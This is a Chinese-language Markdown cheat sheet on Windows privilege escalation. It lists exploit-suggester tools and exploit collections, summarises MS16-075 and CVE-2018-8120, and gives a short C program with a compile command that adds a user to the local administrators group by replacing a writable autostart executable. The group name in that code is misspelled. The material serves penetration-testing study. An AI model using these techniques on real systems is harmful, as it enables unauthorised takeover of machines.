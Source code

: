**提权辅助工具**
- [windows 本地提权对照表](http://www.7kb.org/138.html)
- [提权辅助网页](https://i.hacking8.com/tiquan/)
- [Windows提权EXP在线搜索工具](http://blog.neargle.com/win-powerup-exp-index/)
- [BulletinSearch-微软官网提供的漏洞 excel 列表](http://download.microsoft.com/download/6/7/3/673E4349-1CA5-40B9-8879-095C72D5B49D/BulletinSearch.xlsx)
- [GDSSecurity/Windows-Exploit-Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester) - 此工具将目标修补程序级别与 Microsoft 漏洞数据库进行比较,以便检测目标上可能缺少的修补程序.
- [bitsadmin/wesng](https://github.com/bitsadmin/wesng) - Windows Exploit Suggester
- [tengzhangchao/microsoftSpider](https://github.com/tengzhangchao/microsoftSpider) - 爬取微软漏洞信息,MS 对应的每个版本操作系统 KB 号以及补丁下载地址.
- [SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits) - Windows 平台提权漏洞集合
- [AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) - 将目标的修补程序与微软的漏洞数据库进行比较，以检测目标的潜在缺失修补程序。
- [akabe1/windows_exploit_dowser](https://github.com/akabe1/windows_exploit_dowser) - 一个简单的工具，可以用来识别影响 Windows 操作系统的漏洞。

**添加开机启动项**

useradd.c
```C
#include <stdlib.h>
int main ()
{
    int i;
    i=system ("net localgroup adminstrators lowpriv /add");
    return 0;
}
```
```
i586-mingw32msvc-gcc useradd.c -o useradd.exe
```
将 useradd.exe 传到目标机上,用 useradd.exe 去替换 everyone 完成控制且以系统权限开机自启的 exe,即可将用户 lowpriv 提升为管理员权限

查看一个程序的各个用户权限: `icacls xxx.exe`

**MS16-075**
- 简介

    Windows SMB 服务器特权提升漏洞（CVE漏洞编号：CVE-2016-3225）当攻击者转发适用于在同一计算机上运行的其他服务的身份验证请求时，Microsoft 服务器消息块 (SMB) 中存在特权提升漏洞，成功利用此漏洞的攻击者可以使用提升的特权执行任意代码。若要利用此漏洞，攻击者首先必须登录系统。然后，攻击者可以运行一个为利用此漏洞而经特殊设计的应用程序，从而控制受影响的系统。

- POC | Payload | exp
    - [MS16-075](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-075)

**CVE-2018-8120**
- 简介

    Microsoft Windows 中存在提权漏洞，该漏洞源于 Win32k 组件没有正确的处理内存中的对象。攻击者可利用该漏洞在内核模式下以提升的权限执行任意代码。

- 影响版本
    - Microsoft Windows 7 SP1
    - Windows Server 2008 SP2
    - Windows Server 2008 R2 SP1
